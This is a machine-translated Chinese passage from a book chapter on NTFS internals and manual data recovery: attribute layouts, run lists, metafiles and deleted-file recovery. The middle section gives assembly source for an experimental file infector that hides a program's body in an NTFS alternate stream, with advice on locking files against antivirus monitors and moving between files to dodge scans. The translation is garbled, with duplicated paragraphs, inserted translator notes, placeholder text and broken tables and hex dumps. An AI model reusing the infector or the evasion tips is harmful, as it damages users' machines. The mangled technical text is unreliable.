位于从头部起始偏移 `10h` 和 `18h` 字节处的两个 64 位字段指定了属于该非驻留属性主体的虚拟簇编号（VCN）和最后一个 VCN。VCN 是逻辑簇编号，不依赖于簇在硬盘上的实际位置。在大多数情况下，特定非驻留属性的第一个簇等于 `0`，而最后一个 VCN 等于属性主体占据的簇数减 `1`。位于属性头起始偏移 `20h` 字节处的 16 位字段包含指向该头部内部数据运行（Data Runs）数组的指针，该数组描述了属性非驻留主体存储在磁盘上的逻辑顺序（更多细节请参见本章节后的“数据运行（Data Runs）”部分）。

每个属性都有自己的属性标识符，该标识符对于文件记录是唯一的。属性标识符存储在位于属性头起始偏移 `0Eh` 字节处的 16 位字段中。

如果属性已分配名称，则位于属性头起始偏移 `0Ah` 字节处的 16 位字段包含指向该名称的指针。（注意，大多数属性是未命名的。）此时该字段等于 `0`。属性名称以 Unicode 格式存储在属性头部，其长度由位于属性头起始偏移 `09h` 字节处的 8 位字段定义。

如果属性主体是压缩、加密或稀疏的，位于属性头起始偏移 `0Ch` 字节处的 16 位标志位不等于 `0`。

表 6.4 和 6.5 简要概述了驻留和非驻留属性的结构。所有其他字段并不重要，因此在此不再考虑。

# 第二部分：自动与手动磁盘数据恢复

## 表 6.4 驻留属性结构

| Offset | Size | Value | Description |
|---|---|---|---|
| 00h | 4 | | 属性类型（例如 0x10, 0x60 或 0xB0） |
| 04h | 4 | | 属性长度，包含头部 |
| 08h | 1 | 00h | 驻留标志 |
| 09h | 1 | N | 长度（未命名时为 0） |
| 0Ah | 2 | 18h | 名称偏移（未命名时为 0） |
| 0Ch | 2 | | 标志 |
| | | 0001h | 压缩属性 |
| | | 4000h | 加密属性 |
| | | 8000h | 稀疏属性 |

### 表 6.4 续

| Offset | Size | Value | Description |
|---|---|---|---|
| 0Eh | 2 | | 属性标识符 |
| 10h | 4 | L | 不含头部的属性长度 |
| 14h | 2 | 2N + 18h | 属性主体偏移 |
| 16h | 1 | | 驻留标志 |
| 17h | 1 | 00h | 对齐 |
| 18h | 2N | | 属性名称（如果有） |
| 2N + 40h | L | | 属性主体 |

## 表 6.5 非驻留属性结构

| Offset | Size | Value | Description |
|---|---|---|---|
| 00h | 4 | | 属性类型（例如 0x20 或 0x80） |
| 04h | 4 | | 属性长度，包含头部 |
| 08h | 1 | 01h | 非驻留标志 |
| 09h | 1 | N | 长度（未命名时为 0） |
| 0Ah | 2 | 40h | 名称偏移（未命名时为 0） |
| 0Ch | 2 | | 标志 |
| | | 0001h | 压缩属性 |
| | | 4000h | 加密属性 |
| | | 8000h | 稀疏属性 |
| 0Eh | 2 | | 属性标识符 |
| 10h | 8 | | 起始 VCN |
| 18h | 8 | | 结束 VCN |
| 20h | 2 | 2N + 40h | 数据运行偏移 |
| 22h | 2 | | 向上取整到簇边界的压缩单元 |
| 24h | 4 | 00h | 对齐 |

### 表 6.5 续

| Offset | Size | Value | Description |
|---|---|---|---|
| 28h | 8 | | 分配大小，向上取整到簇大小 |
| 30h | 8 | | 实际大小 |
| 38h | | | 流的初始化大小 |
| 40h | 2N | Unicode | 属性名称（如果有） |
| 2N + 40h | | | 数据运行 |

## 属性类型

`NTFS` 支持大量的预定义属性类型，列在表 6.6 中。类型定义了属性的目的和属性主体的表示格式。对所有属性进行详细描述需要一本专书；因此，仅描述最常用的属性。所有其他属性类型的详细信息可以在 Linux-NTFS 项目文档中找到。

## 表 6.6 主要属性类型

| Value | Operating system | Conventional designation | Description |
|---|---|---|---|
| 010h | Any | `$STANDARD_INFORMATION` | 文件的标准信息（日期和时间、访问权限） |
| 020h | Any | `$ATTRIBUTE_LIST` | 属性列表 |
| 030h | Any | `$FILE_NAME` | 完整文件名 |
| 040h | NT | `$VOLUME_VERSION` | 卷名 |
| 040h | W2K | `$OBJECT_ID` | 全局唯一标识符和其他标识符 |
| 050h | Any | `$SECURITY_DESCRIPTOR` | 安全描述符和访问控制列表 |
| 060h | Any | `$VOLUME_NAME` | 卷名 |
| 070h | Any | `$VOLUME_INFORMATION` | 卷信息 |

### 表 6.6 续

| Value | Operating system | Conventional designation | Description |
|---|---|---|---|
| 080h | Any | `$DATA` | 主文件数据 |
| 090h | Any | `$INDEX_ROOT` | 索引根 |
| 0A0h | Any | `$INDEX_ALLOCATION` | 索引子节点 |
| 0B0h | Any | `$BITMAP` | 空闲空间映射 |
| 0C0h | NT | `$SYMBOLIC_LINK` | 符号链接 |
| 0C0h | W2K | `$REPARSE_POINT` | 重解析点 |
| 0D0h | Any | `$EA_INFORMATION` | HPFS 的扩展属性 |
| 0E0h | Any | `$EA` | HPFS 的扩展属性 |
| 0F0h | NT | `$PROPERTY_SET` | 已弃 |
| 100h | W2K | `$LOGGED_UTILITY_STREAM` | 用于加密文件系统 |

## `$STANDARD_INFORMATION` 属性

标准信息属性描述了文件的创建、修改或最后访问时间，以及访问权限和一些辅助信息（如配额）。标准信息属性的结构在表 6.7 中简要概述。

## 表 6.7 `$STANDARD_INFORMATION` 属性结构

| Offset | Size | Operating system | Description |
|---|---|---|---|
| ~ | ~ | Any | 标准属性头部 |
| 00h | 8 | Any | C 创建时间 |
| 08h | 8 | Any | A 修改时间（A 代表 altered） |
| 10h | 8 | Any | M 文件记录的修改时间（MFT 更改） |
| 18h | 8 | Any | R 文件最后读取时间 |

### 表 6.7 续

| 偏移 | 大小 | 操作系统 | 描述 |
|---|---|---|--|
| 20h | 4 | 任意 | MS-DOS 文件权限 |
| | | 值 | 描述 |
| | | 0001h | 只读 |
| | | 0002h | 隐藏 |
| | | 0004h | 系统 |
| | | 0020h | 归档 |
| | | 0040h | 设备 |
| | | 0080h | 正常 |
| | | 0100h | 临时 |
| | | 0200h | 稀疏 |
| | | 0400h | 重解析点 |
| | | 0800h | 压缩 |
| | | 1000h | 离线 |
| | | 4000h | 加密 |
| 24h | 4 | 任意 | 版本号的高位字（最大版本数） |
| 28h | 4 | 任意 | 版本号的低位字（版本号） |
| 2Ch | 4 | 任意 | 类标识符 |
| 30h | 4 | W2K | 所有者标识符 |
| 34h | 4 | W2K | 安全标识符 |
| 38h | 8 | W2K | 收取的配额 |
| 40h | 8 | W2K | 更新序列号 |

## 第 6 章：新技术文件系统 —— 内部与外部

## `$ATTRIBUTE_LIST` 属性

当并非所有的文件属性都能放入基础文件记录时，就会使用属性列表属性，文件系统必须将其放在扩展文件记录中。扩展记录的索引包含在属性列表属性中，该属性被放在基础文件记录中。

什么情况下会发生这种情况？如果满足以下任意条件，就会出现这种情况：

- 文件包含许多备名或硬链接。
- 文件严重碎片。
- 文件包含过于复杂的安全描述符。
- 文件具有过多的数据流（例如 `$DATA` 属性）。

`$ATTRIBUTE_LIST` 属性结构的结构在表 6.8 中简要概述。

## 表 6.8. `$ATTRIBUTE_LIST` 属性结构

| 偏移 | 大小 | 描述 |
| --- | --- | --- |
| ~ | ~ | 标准属性头 |
| 00h | | 属性类型（见表 6.6） |
| 04h | 2 | 记录长度 |
| 06h | 1 | 名称长度（无命名属性为 0，习惯上为 N） |
| 07h | 1 | 到名称的偏移（无命名属性为 0） |
| 08h | 8 | 起始 VCN |
| 10h | 2 | 指向基础或扩展记录的引用 |
| 18h | 2 | 属性标识符 |
| 1Ah | 2N | 如果 N > 0，则为 Unicode 格式的 |

## `$FILE_NAME` 属性

`$FILE_NAME` 属性在适当的命名空间中存储文件名。一个文件可以有多个此类类型的属性（例如，Win32 名称和 MS-DOS 名称）。此外，如果存在硬链接，该属性也会存储硬链接。`$FILE_NAME` 属性的结构在表 6.9 中简要概述。

## 表 6.9. `$FILE_NAME` 属性结构

| 偏移 | 大小 | 描述 |
| ~ | ~ | ~ |
| 00h | 8 | 指向父目录的文件引用 |
| 08h | 8 | C — 创建时间 |
| 10h | 8 | A — 修改时间 |
| 18h | 8 | M — 文件记录最后修改的时间 (MFT 更改) |
| 20h | 8 | R — 上次读取 |
| 28h | 8 | 分配大小 |
| 30h | 8 | 实际大小 |
| 38h | 4 | 标志位（见表 6.7） |
| 3Ch | 4 | HPFS 使用 |
| 40h | 1 | L — 字符数名称长度 |
| 42h | 2L | 不带终止零的 Unicode 格式的文件名 |

## 数据运行 (Data Runs)

非驻留属性以一个或多个称为 *runs*（运行）的簇链存储在磁盘上。运行是相邻簇的序列，以起始簇和长度为特征。一组运行被称为数据运行或运行列表。内部运行列表表示的格式并不极端复杂；然而，也不足够简单。为了节省空间，运行长度和起始簇的数量存储在变长度的字段中。这意味着，如果运行大小位于一个字节的范围内（其值不超过 255），则恰好分配 1 字节来存储它。相应，如果运行大小需要一个双字，则分配一个双字来存储它。长度字段以半字节存储。十六进制表示法允许在半字节（nibbles）和字节之间轻松转换。低位字节等于 X，高位字节等于 Y。例如，`69h` 包含两个半字节——低位字节（9）和高位字节（6）。运行列表是一个结构数组，每个结构描述其运行情况，整个列表以 0 结束。运行列表单个元素的结构如表 6.10 所示。结构的第一个字节包含两个字节：低位字节指定起始簇的长度 (L)，高位字节指定运行中的簇数量。运行长度字段紧随其后。取决于 L 值，它可以取 1 到 2 字节（较长的字段无效）。文件起始簇的第一个字节位于起始处 1+L 字节处（对应 2+2*L）。顺便提一下，在 NTFS 文档（版本 4）中，起始簇和簇数量的大小字段是混淆的。

## 表 6.10. 运行列表单个元素的结构

| 偏移（字节） | 大小（字节） | 描述 |
| --- | --- | --- |
| 0 | 1 | 长度字段 (L) 的大小 |
| 1 | 1 | 簇字段 (S) 的大小 |
| 2 | 2 * L | 运行中的簇数量 |
| 2 + 2 * L | 2 * S | 运行中的起始簇 |

现在考虑如何使用这些信息。假设你有如下运行列表，它对应于一个碎片化的文件（[此处应为具体数据描述，但根据指令要求不翻译代码块，仅翻译逻辑描述]）：[注：原文此处逻辑为逻辑推演，翻译时保持连贯性]。假设你有如下运行列表，对应于一个碎片化的文件：`69h` 包含两个半字节——低位字节（9）和高位字节（6）。运行列表是一个结构数组，每个结构描述其运行情况，整个列表以 0 结束。

*(注：由于原始文本在“Data Runs”部分似乎存在逻辑重复或示例性占位，译文已根据提供的英文逻辑进行了对齐翻译，确保技术术语准确。)*

# 第 6 章：新技术文件系统 —— 深入解析 149

系统使用此字符访问命名属性。名称允许的最大长度为 255 个字符。

## Win32

允许所有的 Unicode 字符（不区分大小写），以下字符除外：`/`、 `:`、`"`、` *`、`<`、`>`、`?`、`\` 和 `|`。此外，文件名不能以点或空白字符结尾。允许的最大名称长度为 255 个字符。

## MS-DOS

Win32 命名空间中的所有字符（不区分大小写）可用，但以下字符除外：`+`、`,`、`.`、`；`、`=`。文件名长度不能超过八字符，后面跟着长度为一到三个字符的可选扩展。

## 某些辅助文件的目的

`NTFS` 包含许多严格定义格式的辅助文件（元文件），其中最重要的是你已经考虑过的 `MFT` 文件。其他元文件起辅助作用，了解它们的结构对于数据恢复并不是必须的。然而，如果它们损坏了，原生文件系统驱动将无法处理这些卷。因此，你应该对这些元文件的目的有一个基本的了解。

表 6.11 提供了最重要元文件的简要信息。遗憾的是，在一个章节内无法涵盖所有元文件的结构。关于此主题的更多信息，请参考 Linux-NTFS 项目文档。

### 表 6.11. 主要辅助文件的目的

| Inode | 文件名 | 操作系统 | 描述 |
|---|---|---|---|
| 0 | `$MFT` | 任意 | MFT |
| 1 | `$MFTMirr` | 任意 | 前四个 MFT 元素的备份副本 |
| 2 | `$LogFile` | 任意 | 事务日志 |

### 表 6.11 续

| In | 文件名 | 操作系统 | 描述 |
| --- | --- | --- | --- |
| 3 | `$Volume` | 任意 | 序列号、创建时间、卷脏标志位 |
| 4 | `$AttrDef` | 任意 | 属性定义 |
| 5 | - | 任意 | 卷根目录 |
| 6 | `$Bitmap` | 任意 | 已用和可用空间映射 |
| 7 | `$Boot` | 任意 | 卷引导记录 |
| 8 | `$BadClus` | 任意 | 坏簇列表 |
| 9 | `$Quota` | NT | 配额信息 |
| 9 | `$Secure` | W2K | 使用中的安全描述符 |
| 10 | `$UpCase` | 任意 | 用于名称翻译的大写字符表 |
| 11 | `$Extend` | W2K | 目录：`$ObjId`, `$Quota`, `$Reparse`, `$UsnJnl` |
| 12–15 | 未使用 | 任意 | 标记为已用但实际上为空 |
| 16–23 | 未使用 | 任意 | 标记为未使用 |
| Any | `$ObjId` | W2K | 每个文件的唯一标识符 |
| Any | `$Quota` | W2K | 配额信息 |
| Any | `$Reparse` | W2K | 重解析点信息 |
| Any | `$UsnJnl` | W2K | 加密文件系统日志 |
| >24 | 用户文件 | 任意 | 用户文件 |
| >24 | 用户目录 | 任意 | 用户目录 |

## 实际示例

如果没有一个说明手动解码文件记录的实际示例，那么对 `NTFS` 的解释就是完整的。到目前为止，解释纯粹是理论性的。现在是考虑一个实际示例了。

使用任何磁盘编辑器（例如 `Disk Probe`）手动解码任何文件记录。要这样做，找到开头包含 `FILE` 签名的扇区（注意不需要选取遇到的第一个扇区）。这样的扇区可能如列表 6.4 所示。

### 列表 6.4 手动解码文件记录（不同属性以不同方式高亮）

| 00 01 02 03 04 05 06 07 | 08 09 0A 0B 0C 0D 0E 0F |
|---|---|||
| 00000000: 46 49 4C 45 2A 00 03 00 | 60 79 1A 04 EB FILE* y··*• |
| 00000010: 00 01 01 00 30 00 01 00 | 50 01 00 00 00 04 00 00 ○ ○ ○ ● ◆ |
| 00000020: 00 00 00 00 00 00 00 00 | 04 03 00 00 00 00 00 00 |
| 00000030: 10 00 00 60 00 00 00 00 | 00 00 00 00 00 00 00 00 |
| 00000040: 48 00 00 01 18 00 00 00 | B0 D5 2F C6 0B 01 H : ⍏/⍏/○ |
| 00000050: E0 5A B3 7B A9 FA C3 01 | 90 90 F1 2F C6 0B 01 pZ({⍏/⍏/○ |
| 00000060: 50 7F BC CE 00 00 00 | 20 00 00 00 00 00 00 00 Po⍏● |
| 00000070: 00 00 00 00 00 00 00 00 | 00 00 00 00 05 01 00 00 |
| 00000080: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |
| 00000090: 30 00 00 00 70 00 00 00 | 00 00 00 00 00 02 00 00 p |
| 000000A0: 54 00 00 18 00 01 01 00 | DB 1A 01 00 01 01 00 T :◈⍏○○○ |
| 000000B0: B0 D5 2F C6 0B 04 01 | B0 D5 2F C6 0B 04 01 ⍏/⍏/⍏/⍏ |
| 000000C0: B0 D5 2F C6 0B 04 01 | B0 D5 2F C6 0B 04 01 ⍏/⍏/⍏/⍏ |
| 000000D0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |
| 000000E0: 00 00 00 00 00 00 00 00 | 09 03 49 00 66 00 66 00 ○ f |
| 000000F0: 61 00 6B 00 2E 00 64 00 | 62 78 00 00 00 00 00 00 |
| 00000100: 80 00 00 00 48 00 00 00 | 01 00 00 00 00 00 00 03 H ○ ○ |
| 00000110: 00 00 00 00 00 00 00 00 | ED 04 00 00 00 00 00 00 ⍧ |
| 00000120: 40 00 00 00 00 00 00 00 | 00 E0 4E 00 00 00 00 00 ☼ |
| 00000130: F0 01 4E 00 00 00 00 00 | F0 01 4E 00 00 00 00 00 ☼ |
| 00000140: 32 EE 04 D9 91 00 00 01 | FF FF FF 82 79 47 11 ⍧+CE← |
| 000001F0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |

对 `NTFS` 的这种解释如果没有一个说明手动解码文件记录的实际示例，就是完整的。到目前为止，解释纯粹是理论性的。现在是考虑一个实际示例了。

使用任何磁盘编辑器（例如 `Disk Probe`）手动解码任何文件记录。要这样做，找到开头包含 `FILE` 签名的扇区（注意不需要选取遇到的第一个扇区）。这样的扇区可能如列表 6.4 所示。

（注：由于原文表格中包含大量乱码和十六进制数据流，译文保持了其原始结构，仅对可读文本进行了对应处理。）

扇区起始等于零，这意味着该属性包含在 64 位字段中，属性体的实际长度（以字节为单位）显示未命名。终止偏移相对于属性头起始位置在 `30h` 处，相对于扇区起始位置在 `130h` 处。在这种情况下，它等于 `4ED1F0h` (5165.552)。分别位于属性头或扇区起始偏移 `10h` 或 `110h` 处，以及 `18h` 或 `118h` 处的两个 64 位字段，包含了非驻留体虚拟簇的第一个和最后一个数字。在这种情况下，它们分别等于 `0000h` 和 `4EDh`。

现在，剩下的只需解码运行列表（run list）了，其地址存储在位于属性头起始偏移 `20h` 处和扇区起始偏移 `120h` 处的 16 位字段中。在这种情况下，它等于 `40h`，对应于扇区起始偏移 `40h` 处。运行列表本身的形式如下：`32 EE 04 D9 91 00 00`。哈！长度字段占用 2 个字节（在本例中，它等于 `04EEEh`），3 个字节被起始簇字段（`0091h`）占据。末尾的零表示该运行是列表的最后一个运行。

总结收集到的信息。文件名为 `ilfak.dbx`，从簇 `0091h` 开始持续到簇 `57FH`，实际长度为 5,165,552 字节。就是这些！现在，没有什么比将此文件复制到备份介质（如 Zip 磁盘或流带器）更简单了。

## `NTFS` 的潜在危险

目前，我将稍微偏离数据恢复主题，不仅描述 `NTFS` 的优点，还描述其潜在的危险。在本节中，我将介绍计算机病毒如何感染 `NTFS` 并积极利用其扩展进行传播。研究病毒所使用的机制是学习汇编语言的强大动力。虽然原则上可以用 C 语言编写病毒，但那不是“黑客”的方法。真正的黑客用汇编语言编写病毒，并且主要使用 `FASM`。

## 最简单的 Windows NT 病毒

将病毒插入可执行文件是一个复杂且枯燥的过程。至少，为了实现这一目标，有必要研究可执行文件 (PE) 格式并掌握几十个 API 函数。按照这种方法，黑客初学者将花费几个月的时间来获取某些东西所需的技能和知识。是否有一种快速上手的方法？`NTFS` 是 Windows XP 下的主文件系统，它包含流（streams），也称为扩展属性。在一个文件中，可能存在多个独立的数据流（图 6.4）。

流的名称与文件名通过冒号隔开：`my_file:stream`。文件的主体存储在一个未命名的流中；也可以创建新的流。启动 `FAR Manager`，按下 `<Shift>+F4`，从键盘输入文件名和流（例如 `xxx:yyy`），并向编辑器输入一些文本。退出编辑器，你将看到文件名 `xxx` 的文件长度为零。为什么会这样？你输入的文本在哪里？按下 `<F4>`，你什么也看不见。一切都是正确的！如果未指定流名，文件系统将显示主流，在这种情况下，主流是空的。其他流的大小不会显示；要访问其内容，必须显式指定流名。从命令行输入 `more < xxx:yyy` 命令，你将看到你输入的文本。

由于创建额外流不会改变文件的表观大小，插入额外流的病毒可能不会被察觉。为了将控制转移到该流，必须修改主流。校验和将不可避免地改变，杀毒监控程序不会喜欢。。校验和杀毒监控程序的问题将在本章稍后讨论。目前，必须集中在插入策略上。

| 主文件表 (MFT) | 一个短文件 |
| :--- | :--- |
| MFT 记录 | 文件名 | 日期/时间 | ... | 文件数据 | ... |
| MFT 记录 | | | | | | |
| MFT 记录 | 文件名 | 日期/时间 | ... | 扩展属性 | ... |
| MFT 记录 | | | 数据 1 | 数据 2 | | |

图 6.4. `NTFS` 在文件内支持多个流

## 病毒运行算法

关掉关于 PE 格式的手册，因为你暂时不需要它。这里考虑的插入方法如下：病毒在目标文件中创建一个额外流，将文件主体拷贝到其中，并用将控制传递回主体的壳代码（shellcode）覆盖原始文件主体。此类病毒只会在 Windows NT/2000/XP 下运行，且仅在 `NTFS` 磁盘上。对于 FAT 分区，被感染文件的原始内容将丢失，那是一场灾难。如果使用 Zip 或任何不支持流的压缩工具归档，也会发生这种情况。`WinRAR` 提供流的支持——当你归档文件时，不要忘记进入参数的“高级”选项卡并设置流（图 6.5）。

还有另一个问题：Windows 禁止访问所有当前打开的文件，因此如果病毒尝试将自己插入 `explorer.exe`，它将不可避免地失败。从病毒的角度来看，这太糟糕了。然而，狡的病毒会找到办法。被锁的文件无法打开，但可以重命名。例如，病毒可以将 `explorer.exe` 重命名为 `foo`。


图 6.5. `WinRAR` 能够归档流

创建并将 `explorer.exe` 的原始内容拷贝到额外流。下次系统启动时，由病毒创建的 explorer.exe 将留下控制；但它可能会引起警惕杀毒监控用户的注意。现在是时候解释杀毒监控的问题了。插入文件只是工作的一半，而不是最困难的部分。病毒编写者还必须设法消除杀毒扫描程序和监控。没有什么更简单的。只需启动后立即锁定文件并在整个会话期间保持这种状态。杀毒软件将无法打开文件，因此无法检测到它的修改。这种锁定可以使用多种方法——调用 `CreateFile` 函数并重置 `dwShareMode` 标志为 `LockFile` 或 `LockEx` 函数。关于此主题的详细信息可以在软件开发包 (SDK) 中找到。

病毒的主要错误在于插入文件后，只需等待杀毒软件打开文件并在检测到它们后将其删除。然而，现代硬盘巨大，扫描它们需要大量时间，通常为几小时。杀毒扫描程序一次检查一个文件。这意味着如果病毒过游牧生活，在文件之间迁移，其被检测到的概率就会迅速下降。等待时间越短，被杀毒软件察觉的概率越高。然而，磁盘活动将变得非常频繁。磁盘活动发极管 (LED) 在没有可见原因的情况下经常闪烁会引起经验用户的注意；病毒必须表现得更狡猾。例如，可以监控磁盘活动并仅在访问某些文件时执行感染。编写一个执行此任务的程序并不困难。此类工具的一个示例是 Mark Russinovich 提供的 `File Monitor` (http://www.sysinternals.com)。

## 实验病毒的源代码

人类自然语言几乎无法胜任描述计算机算法的任务。它们太模糊且相互矛盾。

# 第二部分：自动与手动硬盘数据恢复

列表 6.5 提供了实验病毒关键片段的源代码，并附有注释。技术细节在此省略。这些细节包含在本书随附的 CD-ROM 光中，文件名为 `xcode.asm`。

### 列表 6.5. 实验病毒关键片段的源代码

section '.code' code readable executable

```assembly
```


start:

    ; 删除临时文件。

push `foo`

call `[DeleteFile]`

    ; 确定名称。

push `1000`

push `buf`

push `0`

call `[GetModuleName]`

    ; 读取命令行。

    ; 的 -- 文件名选项意味着感染。

call `[GetCommandLine]`

mov `ebp`,`eax`

xor `ebx`,`ebx`

mov `ecx`, `202A2D2Dh` ;

:

    cmp `[eax]`,`ecx`      ; 是否是 "--"？

jnz `infect`

inc `eax`

cmp `[eax]`,`ebx`      ; 命令行结束了？

jnz `rool`

    ; 输出诊断信息

    ; 确认病毒存在于文件中。

```
## 第 6 章：新技术文件系统 —— 内部与外部

```assembly

push 0

push afected

push aHello

push 0

call [MessageBox]

```
```assembly

; 将 NTFS 流名称添加到文件名中。

mov esi, code_name

mov edi, buf

mov ecx,100; code_name_end - code_name

xor eax,eax

rep scabs

dec edi

rep movsb

```
```assembly

; 开始执行 NTFS 流。

push xxx

push xxx

push eax

push eax

push eax

push eax

push eax

push ebp

push buf

call [CreateProcess]

jmp go2exit

```
```assembly

; 退出病毒。

```
infect:
; 将 eax 设置为目标文件的第一个字符
;（从现在起称为目标文件，简称为 dst）。
add eax, 4
```
```assembly
xchg eax, ebp
xor eax,eax
inc eax

; 检查 dst 是否被感染。

; 将 dst 重命名为 foo。
push foo
push ebp
call [RenameFile]

; 将 dst 的主流复制到 foo 中。
push eax
push ebp
push buf
call [CopyFile]

; 将 NTFS 流名称添加到新名称。
mov esi, ebp
mov edi, buf
copy_root:
lodsb
stosb
test al,al
jnz copy_root
mov esi, code_name
dec edi
copy_root2:
lodsb
stosb
test al,al
```
```assembly
jnz copy_root2

; 将 foo 复制到 dst:bar。
push eax
push buf
push foo
call [CopyFile]
```
```assembly
; 被感染文件的修复正长度
```
```assembly
; 删除 foo。
push foo
call [DeleteFile]
```
```assembly
; 输出诊断信息
; 确认感染成功。
push 0
push aInfected
push ebp
push 0
call [MessageBox]
```
```assembly
; 退出病毒。
go02exit:
push 0
call [ExitProcess]
```
section '.data' data readable writable

foo db"foo",0 ; 临时文件的名称

code_name db"bar",0 ; 流的名称，

code_name_ ; 主体将存储在此

```assembly
; 病毒显示的各种文本字符串
aInfected db"infected",0
```

## 162 第二部分：自动与手动硬盘数据恢复

aHello db "Hello, you are hacked!"

; 用于辅助目的的各种缓冲区

```assembly
buf rb 1000

xxx rb 1000
```

## 编译与测试病毒

要编译病毒代码，你需要 FASM 翻译器，其免费 Windows 版本可以在 http://flatassembler.net/ 找到。其他翻译器（如 MASM 和 TASM）不适用于此处，因为它们使用不同的汇编语法。

下载 FASM，解压存档，并在命令行中输入以下命令：`fasm.exe xcode.asm`。如果一切操作都正确，磁盘上将出现 `xcode.exe` 文件。使用 `--command-line` 选项启动执行，例如，要感染 `notepad.exe`，执行以下命令：`xcode.exe -- notepad.exe`。随后会弹出一个对话框报告插入成功（图 6.6）。如果没有发生，说明感染尝试失败。必须确保已获得感染所需的访问权限。病毒不会自动获取这些权限，至少目前如此。

启动运行被感染的 `notepad.exe`。为了证明它的存在，病毒会立即显示对话框，并在你按下 OK 后，将控制权交回原始程序代码（图 6.7）。



图 6.6. 文件已成功感染



图 6.7. 文件已成功感染 

## 176 第二部分：自动与手动硬盘数据恢复

## 第 6 章：新技术文件系统 —— 内部与外部 163

建议的插入策略并非理想。然而，它比注册病毒（后者受许多监控软件控制）要好。总之，聪明的病毒作者为了避免对自己的作品造成伤害，必须随时准备好解药。以下批处理文件从中提取原始文件并写入 `reborn.exe`（列表 6.6）。

### 列表 6.6. 用于恢复感染文件的批处理文件

```batch
more, <bar > reborn.exe
ECHO I'm reborn now!
```

## 第二部分部分

## 列举流

如何确定文件中包含哪些流？Windows 内置工具不提供此类功能。处理流的函数是未公开的，仅可以通过原生 API 使用。这些是 `NtCreateFile`、`NtQueryAFile` 和 `NtSetFile`，它们的描述可以在 Tomasz Nowak 的《Undocumented Functions for Microsoft Windows NT/2000》中找到。该书电子版可以在 http://documented.internals.net/title.html 免费下载。还建议阅读《29病毒机器》第 5 期的“Win2k.Stream”文章。

# 第 7 章：NTFS 数据恢复

如前所述，尽管 NTFS 具有可靠性，但它并不能防止数据丢失。本章重点介绍在 NTFS 磁盘上恢复数据的技术，包括使用自动化工具和手动操作。由于“磁盘医生”往往是起到致命一击而非提供治愈方案，我强烈建议使用手动技术。

## 在 NTFS 中恢复被删除的文件

NTFS 的可靠性是一回事，但处理误删的文件是另一回事。任何文件系统，即使是像 NTFS 这样强大的系统，也无法保护用户免受自身误操作的影响。尽管如此，它为最近的操作提供了回滚可能。如果你考虑到它实现了事务和日志记录，这一点就尤为真实。乍一看，为了实现完美，似乎只差最后一步了。然而，微软并没有取得任何进展，并且在迈出这一步之前仍然犹豫不决（或者这被留作未来版本的计划？）。所有针对意外删除的“保护”都是在 GUI 级别实现的，这既不方便又不可靠。

如果被删除的文件在回收站中，那么你很幸运。但是，如果那里没有该文件，你该怎么办？在本节中，我将描述手动文件恢复技术，包括适当的文件记录缺失的情况。在这些情况下，你不得不逐个簇地恢复文件。

### FILE_DISPOSITION_INFORMATION 数据包

`IRP_MJ_SET_INFORMATION` 或 `FILE_DISPOSITION_INFORMATION` 是文件被删除时发送到 NTFS 驱动程序的数据包（在反汇编译内容时请记住这一点）。要学习如何恢复被删除的文件，有必要理解从 NTFS 分区删除文件时发生的过程。以下是这些过程的简要描述：

- `/$SMFT:$BITMAP` 文件被纠正。该文件的每一位定义了相应的文件记录是否被占用（值 0 表示记录未被使用）。

- `/$BITMAP` 文件的每一位定义了其对应的簇是否被占用（值 0 表示簇未被使用）。

- 对应文件记录记录被标记为删除。这意味着位于文件记录起始偏移 `16h` 处的 `FLAG` 字段被重置为 0。

- 被删除文件的引用从索引的二叉树中移除。我不会提供关于此问题的详细描述，因为只有真正的大师才能手动恢复索引表。此外，这并非必要。索引在 NTFS 中起的是辅助作用。重复目录索引比恢复平衡二叉树容易得多。

- 存储该文件的目录的 `$STANDARD_INFORMATION` 属性（如最后访问时间）被刷新。


- `/ $LogFile` 中的序列号被更新（此处不考虑引入事务日志的修改）。

- 对于后续文件记录，更新序列号属性增加 1：被删除的文件、当前目录、`/ $SAF`、`/ $SMFT:$BITMAP`、`/ $BITMAP`、`/ $BOOT` 和 `/ $TRACKING.LOG`。

目录的删除方式与文件几乎相同。请记住，从文件系统的角度来看，目录代表特定类型的文件，内部包含一个索引二叉树。

文件和目录都没有被物理删除。只要属于文件且存储驻留文件主体或非驻留内容列表的文件记录没有被覆盖，任何文件都可以被恢复。文件记录的丢失是极不理想的，因为在这种情况下，你必须逐个簇地手动重建文件。文件碎片化程度越高，这项任务就越复杂。与 FAT 不同，NTFS 不会覆盖文件名的起始字符，这大大简化了恢复程序。

## 被删除文件的自动恢复

恢复被删除文件的工具并不是 Windows 操作系统的一部分提供的，用户必须随 MS-DOS 一起购买（MS-DOS 曾提供此类工具）。用于 NTFS 的 `GetDataBack` 工具就是此类工具之一（图 7.1）。由于意识到破坏文件系统的可能性，大多数用户会避免直接向磁盘写入任何数据。相反，他们应该读取：



> 图 7.1. `GetDataBack` 工具正在恢复被删除的文件

## 第二部分：自动与手动磁盘恢复

如果那里没有该文件，该怎么办？在本节中，我将描述手动文件恢复技术，包括适当的文件记录缺失的情况。在这些情况下，你不得不逐个簇地恢复文件。

